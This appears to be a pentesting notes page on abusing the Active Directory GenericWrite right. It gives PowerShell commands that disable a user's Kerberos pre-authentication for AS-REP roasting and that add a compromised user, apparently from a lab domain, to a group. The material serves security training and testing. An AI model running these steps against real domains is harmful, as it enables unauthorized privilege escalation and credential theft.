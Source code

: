 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# GenericWrite

## General

<table><thead><tr><th width="151">Right</th><th width="116">Value</th><th>Description</th></tr></thead><tbody><tr><td>GenericWrite</td><td>131112</td><td>The right to read permissions on this object, write all the properties on this object, and perform all validated writes to this object.</td></tr></tbody></table>

## Exploitation

### Over a User

#### Setting PreAuth (ASREPRoast)

If we own an account which has `GenericWrite` rights over another account, we can make the latter [ASREPRoastable](../attacks/asreproasting.md).

```powershell
# set the preauth option to true
Get-ADUser <USER> | Set-ADAccountControl -doesnotrequirepreauth $true
# check that it worked
Get-ADUSer -Filter 'DoesNotRequirePreAuth -eq $true'
```

An example of the above method can be found [here](../../../../boxes/boxes/insane/multimaster.md#genericwrite-rights).

### Over a Group

#### Adding Group Member

<figure><img src="../../../../.gitbook/assets/genericwrite_group_bh.png" alt=""><figcaption><p>Figure 1: GenericWrite of a user over a group.</p></figcaption></figure>

{% code overflow="wrap" %}
```powershell
# creating a SecureString Object for the owned user
$SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword)

# add the compromised user to the group
Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose 

# confirm that damundsen was added to the group
Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName
```
{% endcode %}

## Resources

{% tabs %}
{% tab title="BH Edge" %}
{% embed url="https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#genericwrite" %}
{% endtab %}
{% endtabs %}
